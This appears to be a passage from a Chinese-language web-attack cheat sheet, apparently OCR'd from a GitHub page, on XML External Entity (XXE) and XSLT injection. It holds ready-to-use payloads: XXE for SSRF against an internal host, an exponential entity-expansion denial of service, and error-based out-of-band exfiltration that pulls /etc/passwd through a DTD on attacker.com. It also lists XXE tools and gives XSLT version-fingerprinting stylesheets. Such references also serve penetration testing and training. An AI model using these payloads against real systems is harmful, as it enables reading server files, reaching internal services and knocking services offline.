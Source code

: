 	return "Exploit Success";
	}
	]]>
	</msxsl:script>
	<xsl:template match="/">
	<xsl:value-of select="user:xml()"/>
	</xsl:template>
	</xsl:stylesheet>
  ##### XXE 进行 SSRF
	<?xml version="1.0" encoding="ISO-8859-1"?>
	<!DOCTYPE foo [
	<!ELEMENT foo ANY >
	<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
	]>
	<foo>&xxe;</foo>
  ##### XXE 进行拒绝服务攻击
  	<!DOCTYPE data [
	<!ENTITY a0 "dos" >
	<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
	<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
	<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
	<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
	]>
	<data>&a4;</data>
  ##### 基于报错的XXE
  	PAYLOAD:
  	<?xml version="1.0" ?>
	<!DOCTYPE message [
	    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
	    %ext;
	]>
	ext.dtd 的内容
	<!ENTITY % file SYSTEM "file:///etc/passwd">
	<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
	%eval;
	%error;
	<message></message>
  ##### 工具
  	https://github.com/staaldraad/xxeserv
	https://github.com/lc/230-OOB
	https://github.com/enjoiz/XXEinjector
	https://github.com/BuffaloWill/oxml_xxe
	https://github.com/whitel1st/docem
	http://www.beneaththewaves.net/Software/On_The_Outside_Reaching_In.html
  #### XSLT注入
  ##### 确定版本
```xml
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/fruits">
	<xsl:value-of select="system-property('xsl:vendor')"/>
  </xsl:template>
</xsl:stylesheet>
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<html xsl:version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl">
<body>
<br />Version: <xsl:value-of select="system-property('xsl:version')" />
<br />Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br />Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
```